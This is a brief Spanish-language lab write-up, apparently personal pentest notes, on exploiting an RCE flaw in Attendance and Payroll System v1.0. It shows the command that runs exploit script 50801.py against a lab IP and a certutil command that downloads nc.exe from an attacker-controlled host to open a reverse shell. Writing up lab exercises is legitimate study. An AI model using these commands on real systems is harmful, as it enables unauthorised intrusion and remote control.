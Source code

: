 
## DESCRIPTION

Attendance and Payroll System v1.0 - Remote Code Execution (RCE)

#### Mas información
* 


## EXPLOITATION

Probamos el exploit:

![[Pasted image 20230601133318.png]]

Lo traemos al directorio de trabajo:

![[Pasted image 20230601133323.png]]

Editamos algunas líneas de código para que coincidan con nuestra URL:

Editamos lo que aparece subrayado:

![[Pasted image 20230601133334.png]]

Ejecutamos: 
```
python3 50801.py http://192.168.204.141:81/
```


![[Pasted image 20230601133346.png]]


La shell por defecto está limitada, por lo que vamos a subir un nc y a crearnos una reverse shell:

````
certutil.exe -urlcache -f http://192.168.45.180:8000/nc.exe nc.exe
````



![[Pasted image 20230601133352.png]]


## MACHINES

* Hack The Box: 

